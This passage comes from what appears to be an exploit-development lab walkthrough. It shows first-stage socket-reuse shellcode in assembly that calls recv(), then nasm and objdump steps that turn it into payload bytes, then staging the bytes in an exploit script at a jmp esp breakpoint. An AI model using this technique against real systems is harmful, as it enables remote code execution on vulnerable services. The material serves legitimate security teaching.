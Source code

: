 	shr eax,0x8             ; Remove the '90' byte of EAX by shifting right and
							; This makes EAX = 0040252C
	call eax                ; Call recv()
	test eax,eax            ; Check if our recv() call was successfully made
	jnz socket_loop         ; If recv() failed, jump back to the socket loop where
							; EDI will be increased to check the next socket handle
	```
5. Use [`nasm`](https://nasm.us/) on the *Kali Linux* machine to compile the assembly into the appropriate shellcode.
	1) Ensure nasm is installed, if not you will need to [install it](https://nasm.us/) and add it to the path.

		<img src="Images/I31.png" width=800>

	2) Run nasm on the target assembly, Run: `nasm -f elf32 -o shellcode.o shellcode.asm`
		* `nasm`: Netwide Assembler, assembles assembly into x86 machine code.
		* `-f elf32`: Specify the elf32 format
		* `-o shellcode.o`: Shellcode File output
		* `shellcode.asm`: Input file
6) Now we can extract the binary with a simple [shell script](./SourceCode/extract.sh).
	```sh
	for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do 
		echo -n '\x'$i; 
	done; 
	echo
	```
	* `for i in`: For each value `$i` generated by the following command 
	* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode
		* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format
		* `grep "^ "`: Extract only those lines containing assembly
		* `cut -f2`: Extract the second field, this contains the hex representation of the instructions
	* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`
	* `echo`: Print an extra line
	* **Note**: If you create this file be sure to make it executable `chmod +x extract.sh`, then you can run it using the command `./extract.sh`

	<img src="Images/I32.png" width=800>
#### Staging
1. Now we can add our first stage shell code to the [exploit5.py](./SourceCode/exploit5.py), we can then set a breakpoint at the `jmp esp` instruction we chose earlier and ensure that it works properly!
